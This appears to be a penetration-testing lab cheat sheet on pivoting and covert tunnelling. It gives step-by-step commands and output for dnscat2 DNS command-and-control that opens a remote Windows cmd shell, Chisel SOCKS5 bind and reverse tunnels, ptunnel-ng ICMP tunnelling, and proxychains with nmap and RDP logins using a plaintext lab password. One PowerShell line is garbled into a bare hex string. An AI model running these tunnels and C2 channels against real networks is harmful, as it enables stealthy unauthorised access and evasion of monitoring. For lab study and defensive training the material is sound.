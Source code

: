 ## #DNS tunnelling with [DNScat2](https://github.com/iagox86/dnscat2)
Uses DNS protocol to send data between 2 hosts, 
Uses an encrypted C2 channel. 
Sends data inside txt records. 
Can be extremely stealthy 

### Setup 
```shell
git clone https://github.com/iagox86/dnscat2.git
```
Set Up 
```shell
sudo ruby dnscat2.rb --dns host=10.10.14.18,port=53,domain=inlanefreight.local --no-cache
```
### Target SetUp
Need to provide the private key to the Windows Host, to encrypt data. 
Can use the client provided DNScat or use [dnscat2 with powershell](https://github.com/lukebaggett/dnscat2-powershell)
```shell
git clone https://github.com/lukebaggett/dnscat2-powershell.git
```
```powershell
Import-Module .\dnscat2.ps1
```
```powershell

0ec04a91cd1e963f8c03ca499d589d21 -Exec cmd 
```
#### Check Session established 
```shell-session
New window created: 1
Session 1 Security: ENCRYPTED AND VERIFIED!
(the security depends on the strength of your pre-shared secret!)

dnscat2>
```

### Using DNS Cat 
```shell
dnscat2> window -i 1
New window created: 1
history_size (session) => 1000
Session 1 Security: ENCRYPTED AND VERIFIED!
(the security depends on the strength of your pre-shared secret!)
This is a console session!

That means that anything you type will be sent as-is to the
client, and anything they type will be displayed as-is on the
screen! If the client is executing a command and you don't
see a prompt, try typing 'pwd' or something!

To go back, type ctrl-z.

Microsoft Windows [Version 10.0.18363.1801]
(c) 2019 Microsoft Corporation. All rights reserved.

C:\Windows\system32>
exec (OFFICEMANAGER) 1>
```

## #SOCKS5 #Tunnelling with [Chisel](https://github.com/jpillora/chisel)
### Bind Shell
#### Setting up Chisel 
```shell
git clone https://github.com/jpillora/chisel.git
```
#### Build the library
```shell
cd chisel
go build
```
#### Transfer Chisel Binary on Pivot Host 
```shell
scp chisel ubuntu@10.129.202.64:~/
```
#### Run Chisel on the host 
```shell
./chisel server -v -p 1234 --socks5
```
#### Connect to the Chisel server from attacking machine 
```shell
./chisel client -v 10.129.202.64:1234 socks
```
#### Edit /etc/proxychains.conf
```shell
# socks4 	127.0.0.1 9050
socks5 127.0.0.1 1080
```
#### Usage example 
```shell-session
proxychains xfreerdp /v:172.16.5.19 /u:victor /p:pass@123 /scale-desktop:200 /scale:180
```
### Reverse Shell
On local machine 
```shell
sudo ./chisel server --reverse -v -p 1234 --socks5
```

On Pivot host 
```shell
./chisel client -v 10.10.14.17:1234 R:socks
```

proxychains.conf
```shell
# add proxy here ...
# socks4    127.0.0.1 9050
socks5 127.0.0.1 1080 
```

## #ICMP Tunnelling with SOCKS
Encapsulates packets with ICMP packets and echo requests + responses
Only works when ping requests are allowed 
### ptunnel-ng
```shell
git clone https://github.com/utoni/ptunnel-ng.git
```
Build the Tunnel 
```shell
sudo ./autogen.sh 
```
Copy to pivot host 
```shell
scp -r ptunnel-ng ubuntu@10.129.202.64:~/
```
Start the tunnel server on the target host 
```shell
/src sudo ./ptunnel-ng -r<pivotIP NoSpace> -R22
```
Connect to the tunnel from the attack host 
```shell
sudo ./ptunnel-ng -p<pivotIP NoSpace> -l2222 -r<local ip> -R22
```
### Tunneling ssh through ICMP 
```shell
ssh -p2222 -lubuntu 127.0.0.1
```
### Enable dynamic port forwarding over #ssh 
```shell
ssh -D 9050 -p2222 -lubuntu 127.0.0.1
```
#### #Proxychaining 
```shell
proxychains nmap -sV -sT 172.16.5.19 -p3389
```
